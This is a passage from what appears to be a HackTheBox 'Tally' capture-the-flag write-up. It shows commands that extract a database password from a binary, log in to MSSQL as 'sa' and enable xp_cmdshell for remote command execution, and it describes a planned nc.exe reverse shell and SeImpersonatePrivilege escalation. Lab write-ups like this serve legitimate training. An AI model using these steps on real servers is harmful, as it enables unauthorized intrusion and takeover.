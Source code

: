 ```bash
cp ./zz_Migration/Binaries/New\ folder/tester.exe /home/al3j0/Documents/HackTheBox/Windows/Tally/content
cd !$
file tester.exe
# PE32 executable (console) Intel 80386
radare2 tester.exe
  aaa
  s main
  pdf
# DATABASE=orcharddb;UID=sa;PWD=G.....G;

strings tester.exe | grep "PWD"
strings tester.exe | grep "PWD" | tr ';' '\n'

mssqlclient.py WORKGROUP/sa@10.129.1.183
  select @@version;
  select user_name();
  SELECT name FROM master.dbo.sysdatabases;
# RCE ?
  EXEC master..xp_cmdshell 'whoami'         # :(
  EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  EXEC master..xp_cmdshell 'whoami'         # :)
```

<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have an **RCE**, I just need to use `nc.exe` to get a **Reverse Shell**, first I will set up a server to share resources via **SMB**, with `impacket-smbserver` and I can run the command in the session I have established with `mssqlclient.py`. Once I succeed in engaging the box, I can already see the content of the first flag, in the process of enumerating the system I find a message for **tim**, which gives me a hint to be able to **Escalate Privileges**. And if I see the privileges that I have, my suspicions are confirmed, I have enabled the **SeImpersonatePrivilege**, so maybe I can already escalate privileges to the user with maximum privileges.
